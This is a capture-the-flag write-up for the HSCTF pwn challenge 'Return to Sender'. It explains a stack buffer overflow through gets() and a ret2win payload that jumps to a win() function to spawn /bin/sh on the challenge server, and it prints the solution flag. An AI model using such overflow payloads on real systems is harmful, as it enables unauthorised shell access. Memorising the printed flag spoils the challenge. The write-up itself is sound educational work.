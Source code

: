 ## Problem info
<table>
  <tr>
    <td><strong>Name</strong></td>
    <td>Return to Sender</td>
  </tr>
  <tr>
    <td><strong>Category</strong></td>
    <td>Pwn</td>
  </tr>
  <tr>
    <td><strong>Message</strong></td>
    <td>Written by: Ptomerty<br>
Who knew the USPS could lose a letter so many times?<br>
<font color="F11766">nc pwn.hsctf.com 1234</font><br>
</td>
  </tr>
  <tr>
    <td><strong>Flags</strong></td>
    <td>hsctf{fedex_dont_fail_me_now}</td>
  </tr>
  <tr>
    <td><strong>Files</strong></td>
    <td>return-to-sender    return-to-sender.c </td>
  </tr>
  <tr>
    <td><strong>Tags</strong></td>
    <td></td>
  </tr>
  <tr>
    <td><strong>Hints</strong></td>
    <td>This might come in handy: https://en.wikipedia.org/wiki/Stack_buffer_overflow</td>
  </tr>
</table>

## Solution

After reading the source code, we see there is a nice target runs system(/bin/sh)
```
void win() {\
	system("/bin/sh");\
}
```

And the vulnerable function 'gets' lies in vuln:
```
void vuln() {\
	char dest[8];\
	printf("Where are you sending your mail to today? ");\
	gets(dest);\
	printf("Alright, to %s it goes!\n", dest);\
}
```

Seemingly an easy ROP by bufferover flow would solve the problem. Check the program type:
```
$ file return-to-sender  
return-to-sender: ELF 32-bit LSB executable.
```
Keep in mind its a 32-bit executable.

Recall the source code assigned 8 bits for dest, therefore a reasonable predict for a 16bit input. Anyway gdb-peda the program.

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial

gdb-peda$ info function
All defined functions:

Non-debugging symbols:
...
0x08049140  register_tm_clones
0x08049180  __do_global_dtors_aux
0x080491b0  frame_dummy
0x080491b6  win
0x080491e1  vuln
0x08049230  main
...
```

By checksec and function address, now we know where to go : win at `0x080491b6`

Therefore construct the payload by [pwning.py](./pwning.py), were the payload sketch would be

`payload = 'a'*0x10 + 'aaaa' + p32(0x080491b6)`

and then were successfully get /bin/sh:

```
$ python pwning.py
[+] Opening connection to pwn.hsctf.com on port 1234: Done
[*] Switching to interactive mode
Where are you sending your mail to today? Alright, to aaaaaaaaaaaaaaaaaaaa\xb6\x91\x0 it goes!
$ ls
bin
dev
flag
lib
lib32
lib64
return-to-sender
return-to-sender.c
$ cat flag
hsctf{fedex_dont_fail_me_now}
``` 